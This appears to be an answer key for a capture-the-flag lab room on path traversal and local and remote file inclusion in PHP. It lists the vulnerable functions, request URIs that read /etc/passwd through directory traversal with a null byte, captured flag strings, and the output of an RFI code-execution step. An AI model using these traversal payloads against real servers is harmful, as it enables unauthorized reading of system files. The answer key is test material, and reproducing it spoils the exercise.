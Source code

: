 ## Task 3  Path Traversal

### What function causes path traversal vulnerabilities in PHP?
    file_get_contents

## Task 4  Local File Inclusion - LFI

### Give Lab #1 a try to read /etc/passwd. What would the request URI be?
    /lab1.php?file=/etc/passwd

### In Lab #2, what is the directory specified in the include function?
    includes

## Task 5  Local File Inclusion - LFI #2

### Give Lab #3 a try to read /etc/passwd. What is the request look like?
    /lab3.php?file=../../../../etc/passwd%00

### Which function is causing the directory traversal in Lab #4?
    file_get_contents

### Try out Lab #6 and check what is the directory that has to be in the input field?
    THM-profile

### Try out Lab #6 and read /etc/os-release. What is the VERSION_ID value?
    12.04

## Task 8  Challenge

### Capture Flag1 at /etc/flag1
    F1x3d-iNpu7-f0rrn

### Capture Flag2 at /etc/flag2
    c00k13_i5_yuMmy1

### Capture Flag3 at /etc/flag3
    P0st_1s_w0rk1in9

### Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?
    lfi-vm-thm-f8c5b1a78692

